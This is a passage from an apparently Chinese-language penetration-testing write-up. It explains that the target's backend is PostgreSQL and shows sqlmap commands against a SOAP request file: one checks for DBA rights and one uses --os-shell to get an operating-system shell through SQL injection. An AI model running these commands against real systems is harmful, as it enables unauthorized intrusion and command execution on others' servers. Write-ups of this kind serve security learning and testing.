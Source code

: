 ### GetShell

后端数据库为 postgresql，所以我们可以尝试通过 Sqlmap 的--os-shell 来获取 shell 权限，不过在此之前我们需要先检查当前用户的权限是否为 DBA 权限

```plain
sqlmap -r soap.txt -p username --dbms postgresql --is-dba
```

[![](assets/1705886707-ccdd3c38f85dbd4106d2ae7b223b4588.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120640-50b1b192-b749-1.png)  
从上面的执行结果可以看到属于 dba 权限，随后我们直接通过--os-shell 获取权限

```plain
sqlmap -r soap.txt -p username --dbms postgresql --os-shell --batch
```

[![](assets/1705886707-c232f61a453580b06e81d2dcfe91d370.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120120716-65df0902-b749-1.png)  
紧接着我们可以执行各类系统命令：  